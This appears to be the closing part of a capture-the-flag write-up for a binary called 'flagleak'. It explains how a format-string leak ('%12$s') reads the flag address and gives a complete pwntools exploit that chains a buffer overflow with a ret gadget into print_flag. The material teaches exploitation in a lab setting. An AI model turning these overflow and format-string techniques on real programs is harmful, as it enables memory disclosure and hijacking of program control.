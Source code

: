 ```
17 b'0x7f60150427cf'
18 b'(nil)'
19 b'0x3e905cce8d84e569'
20 b'0x4010c0'
21 b'(nil)'
22 b'(nil)'
23 b'(nil)'
24 b'0x52b22fb20bc0286b'
25 b'0x82675847cbc5609d'
26 b'(nil)'
27 b'(nil)'
28 b'(nil)'
29 b'0x1'
```
If you look closely, the value on position (offset) 12 ends with `2a0`. This is our target. It's the address at which flag is stored. Now to read the contents of this address, we will use `%s`. This will print the flag as a string. But, we need to directly access the 12th offset, so we will use `%12$s`.
And BOOM!. You get the flag.
## Final exploit
Here is the final script
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./flagleak')
libc = elf.libc
start()

### Exploit Goes Here ###

r = ROP(elf)
ret = r.find_gadget(['ret'])[0]

p.recvline()

payload = b'A'*0x68 
payload += p64(ret) 
payload += p64(elf.sym.print_flag)

p.send(payload)

p.sendline('%12$s')

print(p.recvlines(2)[-1].decode())

p.close()
```
If you have any doubts/questions/suggestions, contact me on twitter @stdnoerr or discord stdnoerr#7880.
